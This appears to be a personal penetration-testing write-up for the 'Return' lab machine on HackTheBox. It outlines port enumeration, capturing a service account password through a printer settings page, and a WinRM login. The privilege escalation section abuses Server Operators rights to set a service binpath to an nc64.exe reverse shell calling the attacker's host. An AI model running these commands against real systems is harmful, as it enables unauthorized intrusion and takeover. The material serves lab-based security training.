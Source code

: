 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 80
	- Microsoft IIS httpd 10.0
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
- 80
	- Default landing page
		- ![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Return/Images/Return01.png)
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /settings.php
				- ![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Return/Images/Return02.png)
				- Change IP to A_IP
				- nc -lvnp 389
				- Run update
					- `return\svc-printer:1edFg43012!!
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- svc-printer
	- crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
		- READ WRITE over C$
	- evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
### PE
#### Windows
- svc-printer
	- whoami /all
		- SeMachineAccountPrivilege  - add account a machine to domain
		- SeLoadDriverPrivilege  -  vulnerable driver and exploiting
			- https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system
		- SeBackupPrivilege - get arbitrary file read
			- https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#shell-as-svc_backup
	- net user USERNAME
		- Check group memberships
		- Server Operators
			- Allows us to modify services
			- Upload nc.exe to target
			- On Kali: nc -lvnp 443
			- Option 1
				- `sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd Kali_IP 443"
				- sc.exe stop VSS
				- sc.exe start VSS
			- Option2
				- `sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd Kali_IP 443"
				- sc.exe start VSS
			- Both options land us a shell as NT Authority
